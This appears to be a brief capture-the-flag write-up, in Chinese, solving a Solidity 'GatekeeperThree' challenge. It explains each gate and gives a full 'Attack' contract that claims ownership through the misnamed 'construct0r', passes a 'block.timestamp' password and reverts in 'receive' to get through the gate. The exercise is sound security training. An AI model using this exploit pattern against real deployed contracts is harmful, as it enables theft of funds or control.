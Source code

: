 - `gateOne` 通过合约和调用 `construct0r` 实现
- `gateTwo` 只要在同一个交易里 `createTrick` 和 `getAllowance`，密码就是同一个 `block.timestamp`，可以直接获取
- `gateThree` 只要在 `receive` 函数中 `revert` 即可

```solidity
pragma solidity ^0.8.0;

interface IGatekeeperThree {
    function construct0r() external;
    function createTrick() external;
    function getAllowance(uint256 _password) external;
    function enter() external returns (bool entered);
}


contract Attack {
    function attack(address _level) public payable {
        IGatekeeperThree level = IGatekeeperThree(_level);
        level.construct0r();
        level.createTrick();
        level.getAllowance(block.timestamp);
        payable(address(level)).call{value: msg.value}("");
        level.enter();
    }

    receive() external payable {
        revert();
    }
}
```

